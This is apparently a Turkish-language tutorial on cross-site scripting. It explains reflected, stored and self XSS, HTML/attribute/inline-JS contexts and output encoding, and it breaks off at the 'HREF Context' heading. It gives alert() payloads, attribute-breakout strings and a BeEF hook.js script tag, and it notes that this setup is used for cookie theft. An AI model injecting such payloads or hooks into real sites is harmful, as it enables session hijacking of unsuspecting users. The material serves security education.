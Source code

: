 # **0x08 | XSS hakkında herşey part 1**

## **XSS nedir?**

Açılımı cross site scripting'tir ve siteler arası betik çalıştırma olarak çevrilebilir. Xss, bir çeşit js enjeksiyonu gibi düşünülebilir. Bir web uygulamasının frontend 
kısmına yönelik bir saldırıdır.

## **XSS nerede bulunur?**

Browsera dönen response'un içeriğinde html, css ve js bulunur. Bir siber güvenlikçi perspektifiyle bakacak olursak bizim için js her zaman daha önemlidir. Çünkü js 
uygulamanın hareket kabiliyetini belirler. XSS, %99 ihtimalle browsera dönen response'un body'sinde bulunur. 

<img width="1153" height="581" alt="image" src="https://github.com/user-attachments/assets/06e5ce8c-241f-4345-b66c-14ce0efbed57" />

Arama kısmında "mehmet" şeklinde arama yapıldığında sayfada input görülebilmektedir. 

<img width="474" height="60" alt="image" src="https://github.com/user-attachments/assets/379af923-fee4-483c-a367-ac33d679c1bf" />

Sayfanın html'i incelendiğinde de aynı şekilde görülebilmektedir.

<img width="400" height="46" alt="image" src="https://github.com/user-attachments/assets/be6e3446-0980-4420-bf05-561b748b7e65" />

Browserdan web sunucusuna bir post reqesti gider ve requestte bulunan query string ya da post parametreleri ile arama kısmına yazılan içerik sunucuya ulaşır. Kullanıcının kontrol edebildiği bu mekanizma xss açığı barındırabilir. 

## **DOM(Document Object Model) Mimarisi**

Bir web sitesinde sayfayı incele kısmına tıklanıp görülen içerik ile sayfanın kaynak kodu arasında fark vardır. Çünkü sayfanın kaynak kodundaki içerik browser tarafından yorumlanmıştır. Kaynak kod kısmındaki js kodları browser'ın interpreter'ı tarafından çalıştırılmıştır ve bu js kodları DOM'un üstündeki hareketleri değiştirir. Http response'un içerisindeki html içerik, browser için bir inputtur ve bir hacker'ın amacı bu input'un içinde ufak manipülasyonlar yapmaktır. 

Site içerisinde bir arama kutusuna isim yazdınız ve url'de bu hale geldi.

```
www.x.com/?keyword=mehmet
```

Kaynak kodu ise bu hale.

```
<div id="content">
 <h2 id='pageName'>searched for: mehmet</h2>
</div>
```

Eğer biz isim yazdığımız yere bu şekilde bir js kodu yazarsak yazılımcının istemediği bir şey yapmış oluruz.

```
www.x.com/?keyword=<script>alert()</script>
```

Koda da bu şekilde yansır.

```
<div id="content">
 <h2 id='pageName'>searched for: <script>alert()</script></h2>
</div>
```

Browser, <script>alert()</script> kısmını çalıştırmaması gerektiğini anlayamaz ve js kodunu çalıştırır. İşte xss'in başladığı nokta burasıdır. 

## **Verilerin farklı ortamlardaki durumu**

Web uygulamasına girilen data, php interpreterında bir data olsa da browsera response olarak geri döndüğünde data artık tag olur ve bu xss'i doğurur. 

<img width="434" height="201" alt="image" src="https://github.com/user-attachments/assets/dcc0a012-53ac-40f8-9cc3-a2195f906f78" />

Neden sürekli <script>alert()</script> denendiği sebebine gelirsek. Bu, pop-up çalıştırmamızı ve zafiyetin tespit edilmesini sağlar. İşin sömürü kısmına gelecek olursak frontend kısmının bozulması, cookilerin ve sessionların çalınması gibi şeylere yol açar xss.

## **BEEF XSS exploitation framework**

BeEF, profesyonel penetrasyon test cihazının istemci taraflı saldırı vektörlerini kullanarak gerçek bir hedef güvenlik ortamını değerlendirebilmesini sağlayan bir framework'tür.

Beef'i çalıştırdıktan sonra terminalde çıkan 2 ip.

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://127.0.0.1:3000/hook.js"></script>
```

"<script>alert()</script>" ile xss'in tespit edildiği yerde "<script src="http://127.0.0.1:3000/hook.js"></script>" çalıştırıyoruz ve beef panelinde online browsers kısmında siteyi görüyoruz. Burdan sonra command kısmında gelip cookielerin çalınmasından sosyal mühendislik saldırılarına kadar pek çok şey yapılabilir.

## **Reflected XSS**

Şimdiye kadar anlatılan xss aslında reflected xss idi. Türkçesi yansıyan xss anlamına gelen bu zafiyet türü, requesti gönderen bir kişinin browser'ında gerçekleşir. Birçok kullanıcının request-response cycle'ı vardır ve bunlar birbirinden bağımsızdır. Bu yüzden de bir saldırgan reflected xss bulduğu zaman bu başka kullanıcılar tarafından görülmez. 

Url shortener sitesine aşağıdaki url'i verildiğinde

```
http://boylebirsiteyok/?keyword=<script>alert(1)</script>
```

böyle bir url'e dönüştürecektir.

```
https://shorturl.at/mh965
```

Bu url'e tıklayan bir kullanıcı, hedef websitesine gider ve giderken browser tüm cookieleri ekler.

## **Stored XSS**

Reflected xss'in web app'ten gelen response'ta olduğundan bahsetmiştik. Şimdi bundan daha kötü bir senaryodan bahsedeceğiz. Payload'ın db'e kaydedildiği durum yani stored xss. Hatta bu db'den faydalanan başka web servisleri ve app'ler bile bu durumdan etkilenebilir. Stored xss kalıcı olarak sitede bulunur ve başka kullanıcılar da bundan etkilenir. Örneğin bir forum sayfasında bir saldırgan yorum olarak xss payload'ı ekledi. Yorumu gören bütün site kullanıcıları bu xss saldırısına maruz kalır. 

## **Self XSS**

Bir banka uygulamasına adres bilgileri girildiğinde kod kısmında böyle gözüktüğünü varsayalım.

```
<html>
 <header></header>
 <body>
  <textarea>
   adres bilgileri...
  </textarea>
 </body>
</html>
```

Adres yerine xss payloadı yazıldığında text'e dönüşecektir bu yüzden payload'ı yazarken <textarea> tag'i kapatılmalı. 

```
 <body>
  <textarea>
   </textarea><script>alert(1)</script>
  </textarea>
 </body>
```

Bu uygulamada kullanıcının kendisinden başka kimse adresini göremez. Dolayısıyla xss'i de kimse göremez yani bu bir self xss zafiyetidir. Self xss zafiyetini sömürmek için sosyal mühendislik gerekir.

## **XSS nasıl engellenir?**

Xss html ile birleşilen output'un verildiği yerde engellenir. Çünkü zafiyet oluştuğu yerde engellenmeli. Input validation ile form alanındaki taglerin gelmesi engellense bile uygulamaya başka yerlerden gelen inputlar yüzünden xss yine ortaya çıkacaktır. Bu yüzden tedbir alırken bütüncül yaklaşmak faydalı olacaktır.

### **Html Context**

Kullanıcının, bu adrese gittiğini varsayalım.

```
www.x.com/?keyword=mehmet
```

Keyword parametresine bu şekilde xss payloadı yazarsak...

```
www.x.com/?keyword=<script>alert(1)</script>
```

Sayfanın içeriğinde buna benzer bir sonuç bekleriz

```
<html>
 <body>
  <p>
   Aradığınız kelime <script>alert(1)</script>
  </p>
 </body>
</html>
```

Eğer output encoding yapılmışsa sonuç böyle gözükür ve xss saldırısı da engellenir. Eğer tag olmazsa xss de olmaz.

```
<html>
 <body>
  <p>
   Aradığınız kelime &lt;script&gt;alert(1)&lt;/script&gt;
  </p>
 </body>
</html>
```

### **Attribute Context**

Url'de verdiğimiz payload'ın, inputun value attribute'unda olduğunu varsayalım. 

```
<html>
 <body>
  <form>
   <input name="keyword" value="<script>alert(1)</script>">
  </form>
 </body>
</html>
```

Burada yazılan payload value'da olduğundan önce value attribute'undan kurtulmak gerekir. Bunun için;
Payload'ı böyle verildiğinde.

```
www.x.com/?keyword="><script>alert(1)</script>
```

Sonuç da böyle olacaktır.

```
<html>
 <body>
  <form>
   <input name="keyword" value=""><script>alert(1)</script>">
  </form>
 </body>
</html>
```

Encoding yapılması bu saldırının da önüne geçecektir fakat tag'in dışına çıkmadan da saldırı yapılabilir.

Saldırı kodu böyle olursa:

```
www.x.com/?keyword=" onmouseover="alert(1)
```

Mouse içeriğin üzerine geldiği anda pop-up çıkar.

```
<html>
 <body>
  <form>
   <input name="keyword" value="" onmouseover="alert(1)">
  </form>
 </body>
</html>
```

Bu saldırı yöntemlerinden dolayı ' ve " ların da encode edilmesi gerekmektedir. Hatta internet explorer'ın eski sürümlerinde `` yazıldığında tag kapanır. Yani ` işareti de encode edilmeli.

### **JSINLINE CONTEXT**

Id parametresi olan bir url.

```
www.x.com/?id=
```

Html kodları.

```
<html>
 <body>
  <form>
   <input name="button" onclick="saveForm()">
  </form>
 </body>
</html>
```

Eğer id parametresine alert(1) verilirse...

```
www.x.com/?id=alert(1)
```

saveForm'un içinde çalışacaktır.

```
<html>
 <body>
  <form>
   <input name="button" onclick="saveForm(alert(1))">
  </form>
 </body>
</html>
```

### **HREF Context**

